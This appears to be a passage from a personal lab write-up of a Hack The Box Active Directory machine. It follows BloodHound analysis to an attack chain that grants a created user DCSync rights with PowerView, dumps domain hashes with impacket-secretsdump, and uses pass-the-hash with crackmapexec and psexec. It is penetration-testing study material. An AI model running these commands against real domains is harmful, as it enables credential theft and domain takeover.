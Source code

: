 			- ![](Pasted%20image%2020230213194246.png)
		- On victim, connect to the share with `net use z: \\$IP\shareName`. Then you can navigate to `z:` or whatever you used, and copy files from windows to this directory. Files copied to here will be transferred to kali.
			- ![](Pasted%20image%2020230213194237.png)
### Navigating bloodhound graph
- Once we succesfully copy over the `.zip` of the AD domain, drag and drop the file into the bloodhound window opened earlier. Then in the search bar, search `svc-alfresco` and mark the user as owned since we have credentials.
- ![](Pasted%20image%2020230213194832.png)
- spooky
- ![](Pasted%20image%2020230213194848.png)
- What we're ultimately after in an AD environment are domain admin accounts. These accounts would give us unparalleled access across the domain. As such, start by searching for `Shortest Paths to Domain Admins from Owned Principals` under the analysis tab. This will generate a search starting with `svc-alfresco` and show the relations that could lead us to domain admin access.
- ![](Pasted%20image%2020230213195026.png)
- This graph shows `svc-alfresco` as a member of the `Service Accounts` group, which is a member of the `Privileged IT` group, which is a member of the `Account Operator` group and so on. The key issue here is that  Account Operators have [GenericAll](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces) permissions over the `Exchange Windows Permissions` group, which in turn has `WriteDACL` permissions. These two misconfigurations will allow `svc-alfresco` to leverage full rights to the `Exchange Windows Permissions` group to modify and gain full control of an object through `WriteDACL`.
	- [Account Operator](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#account-operators) group also grants limited account creation capabilities
- The vector now is to leverage our GenericAll perms (granted by the Account Operator group) to modify the [AD  DACL](https://learn.microsoft.com/en-us/windows/win32/secauthz/access-control-lists) using the WriteDACL perm granted by Exchange Windows Permissions group to give `svc-alfresco` [DCSync](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcsync) permissions

# Killchain
- Create the malicious admin user
- ![](Pasted%20image%2020230213200305.png)
- Add it to the Exchange Windows permissions group so it can modify the `htb.local` Domain DACL
- ![](Pasted%20image%2020230213200513.png)
- `$pass = convertto-securestring 'password' -AsPlainText -Force`
- `$cred = New-Object System.management.Automation.PSCredential('htb\pj_pentester', $pass)`
- `Add-DomainObjectAcl -Credential $Cred -TargetIdentity htb.local -Rights DCSync`
- On kali, we will now use this new user to dump the user hashes of the domain with `secretsdump` from impacket
	- `impacket-secretsdump htb.local/pj_pentester:password@10.129.210.137`
	- ![](Pasted%20image%2020230213202849.png)
- Most important from the dump is the `htb.local\Administrator` - this is a domain scoped admin account.
	- ![](Pasted%20image%2020230213202932.png)
- We can now run a [pass the hash](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/password-spraying) using `crackmapexec` - we confirm that this works by testing smb
- ![](Pasted%20image%2020230213203106.png)
	- With this, we can now get access with these creds through psexec
		- **Hint:** Use all 0s ahead of the hash - TODO: explain
	- ![](Pasted%20image%2020230213203428.png)
	- Domain owned
- #### Example - metasploit modules
- Instead of using an impacket script to connect to the box, its possible to use metasploit to perform the same task.
- Steps:
	- Launch with `msfconsole`
	- `search psexec`
	- ![](Pasted%20image%2020230213203654.png)
	- `use 4`